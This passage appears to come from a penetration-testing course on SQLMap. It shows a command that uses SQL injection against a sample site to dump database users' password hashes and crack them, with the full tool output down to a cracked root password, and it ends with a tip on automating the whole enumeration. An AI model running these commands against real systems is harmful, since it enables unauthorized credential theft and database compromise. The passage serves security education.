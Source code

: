 ***

### DB Users Password Enumeration and Cracking

Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (e.g., connection credentials). To ease the whole process, SQLMap has a special switch `--passwords` designed especially for such a task:

Advanced Database Enumeration

```shell-session
AIceBear@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch

...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes 
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 14:25:28 /2020-09-18/
```

Tip: The '--all' switch in combination with the '--batch' switch, will automa(g)ically do the whole enumeration process on the target itself, and provide the entire enumeration details.
